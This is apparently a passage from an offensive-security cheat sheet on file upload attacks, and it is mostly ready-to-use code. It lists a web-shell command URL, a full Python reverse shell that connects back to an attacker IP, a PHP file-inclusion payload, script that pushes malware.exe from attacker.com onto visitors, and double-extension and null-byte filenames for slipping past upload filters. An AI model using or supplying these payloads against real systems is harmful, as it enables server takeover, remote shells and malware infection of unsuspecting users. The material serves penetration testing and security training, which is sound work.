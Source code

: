    - Access via:
   
```bash
http://<target_domain>/uploads/shell.jsp?cmd=whoami
```

## Python Reverse Shell
   - A Python reverse shell script that can be uploaded for remote code execution:
   
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attack_ip>",<attack_port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

## File Inclusion Payload
Exploits local or remote file inclusion vulnerabilities to execute code on the server.

```php
<?php include($_GET['file']); ?>
```

## Malware Distribution
Uploads malware disguised as legitimate files to infect users who download or execute them.

```xml
<script>
    var a = document.createElement('a');
    a.href = 'http://attacker.com/malware.exe';
    a.download = 'malware.exe';
    document.body.appendChild(a);
    a.click();
</script>
```

# Bypassing Defenses
Bypassing defenses in file upload vulnerabilities requires creativity and an understanding of common validation mechanisms:

## Bypass File Extension Checks
   - Many applications only check file extensions, which can be bypassed by renaming a PHP file with a double extension or null byte:
   
```bash
shell.php.jpg
shell.php%00.jpg  # If the server truncates after null byte
```
